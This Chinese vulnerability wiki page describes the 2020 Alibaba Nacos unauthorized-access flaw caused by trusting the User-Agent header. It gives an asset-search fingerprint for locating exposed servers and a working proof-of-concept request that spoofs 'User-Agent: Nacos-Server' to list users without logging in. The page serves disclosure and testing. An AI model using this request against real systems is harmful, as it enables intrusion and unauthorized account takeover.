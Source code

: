 # Alibaba Nacos user 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

<a-checkbox checked>Alibaba Nacos </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="NACOS"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1679978968874-19b918f8-6501-448d-b9c2-9bbdb48b43b7.png)

验证POC

```javascript
GET /nacos/v1/auth/users?pageNo=1&pageSize=9
User-Agent: Nacos-Server
```

![img](/assets/PeiQi-Wiki/img/1679979333660-14aa3d9c-2581-48a4-b482-27912d98f75d.png)